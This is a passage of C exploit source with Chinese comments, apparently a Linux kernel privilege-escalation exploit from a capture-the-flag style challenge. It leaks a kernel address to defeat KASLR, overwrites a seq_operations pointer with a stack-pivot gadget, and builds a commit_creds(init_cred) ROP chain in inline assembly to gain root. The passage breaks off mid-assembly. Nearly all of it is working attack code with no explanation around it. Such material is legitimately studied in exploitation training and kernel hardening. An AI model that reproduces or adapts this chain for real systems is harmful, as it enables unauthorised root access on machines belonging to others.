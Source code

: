 ```assembly
        bc793390
        / # cat /proc/kallsyms | grep "bc719d30"
        ffffffffbc719d30 t single_start
        / # cat /proc/kallsyms | grep "bc719d70"
        ffffffffbc719d70 t single_stop
    */

    int offset = 0xffffffffbc719d30 - 0xffffffffbc400000;
    int kernel_base = buf[0] + 0xffffffff00000000 - offset;

    printf("%x\n", kernel_base);


    /*
    .text:FFFFFFFF8135B0F6                 add     rsp, 180h
    .text:FFFFFFFF8135B0FD                 pop     rbx
    .text:FFFFFFFF8135B0FE                 pop     r12
    .text:FFFFFFFF8135B100                 pop     r13
    .text:FFFFFFFF8135B102                 pop     r14
    .text:FFFFFFFF8135B104                 pop     rbp
    .text:FFFFFFFF8135B105                 retn
    */
    size_t gadget = 0xffffffff8135b0f6 - 0xffffffff81000000 + kernel_base; // add rsp 一个数然后 pop 一堆寄存器最后ret
    buf[0] = gadget;
    printf("%x\n", gadget);
    writeChunk(0, 0x20, buf);

    // __asm__(
    //     "mov r15,   0xbeefdead;"
    //     "mov r14,   0x11111111;"
    //     "mov r13,   0x22222222;"
    //     "mov r12,   0x33333333;"
    //     "mov rbp,   0x44444444;"
    //     "mov rbx,   0x55555555;"
    //     "mov r11,   0x66666666;"
    //     "mov r10,   0x77777777;"
    //     "mov r9,    0x88888888;"
    //     "mov r8,    0x99999999;"
    //     "xor rax,   rax;"
    //     "mov rcx,   0xaaaaaaaa;"
    //     "mov rdx,   8;"
    //     "mov rsi,   rsp;"
    //     "mov rdi,   seq_fd;"        // 这里假定通过 seq_operations->stat 来触发
    //     "syscall"
    // );


    swapgs_restore_regs_and_return_to_usermode = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE_OFFSET + kernel_base;
    init_cred = INIT_CRED_OFFSET + kernel_base;
    pop_rdi_ret = POP_RDI_RET_OFFSET + kernel_base;
    commit_creds = COMMIT_CREDS_OFFSET + kernel_base;


    swapgs_restore_regs_and_return_to_usermode += 9;

    __asm__(
        "mov r15, 0xbeefdead;"
        "mov r14, pop_rdi_ret;"
        "mov r13, init_cred;"
        "mov r12, commit_creds;"
        "mov rbp, swapgs_restore_regs_and_return_to_usermode;"
```